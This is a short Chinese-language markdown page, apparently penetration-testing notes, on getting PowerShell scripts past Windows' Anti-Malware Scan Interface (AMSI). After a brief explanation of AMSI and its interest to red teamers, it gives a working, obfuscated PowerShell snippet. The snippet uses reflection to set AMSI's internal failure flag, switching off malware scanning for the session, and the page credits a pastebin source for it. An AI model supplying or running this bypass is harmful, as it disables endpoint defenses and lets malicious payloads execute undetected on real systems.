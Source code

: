 ## 绕过AMSI执行powershell脚本  

> AMSI的全称是反恶意软件扫描接口（Anti-Malware Scan Interface），是从Windows 10开始引入的一种机制。AMSI是应用程序和服务能够使用的一种接口，程序和服务可以将“数据”发送到安装在系统上的反恶意软件服务（如Windows Defender）。  

在基于场景的资产评估或者基于数据的红队评估中，许多渗透测试人员都会与AMSI打交道，因此对相关功能也比较了解。AMSI能够提供更强大的保护，可以为反恶意软件产品提供更透彻的可见性，因此能防御攻击过程中常用的一些现代工具、战术以及过程（TTP）。最相关的操作就是PowerShell无文件payload，在实际环境中，攻击者及渗透测试人员都在使用这种技术来完成任务。  

正因为此，AMSI是大家广泛研究的一个主题，能否绕过AMSI已经成为攻击能否成功的决定性因素。在本文中，我们介绍了AMSI的内部工作原理，也介绍了一种新的绕过方法。  

关键powershell代码如下：  
```powershell
$a =[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$h="4456625220575263174452554847"
$s =[string](0..13|%{[char][int](53+($h).substring(($_*2),2))})-replace " "
$b =$a.GetField($s,'NonPublic,Static')
$b.SetValue($null,$true)
```

效果如图：  
![AMSI_TN_bypass](../img/AMSI_TN_bypass.jpg)  

代码来自：`https://pastebin.com/sQFWANwr`   
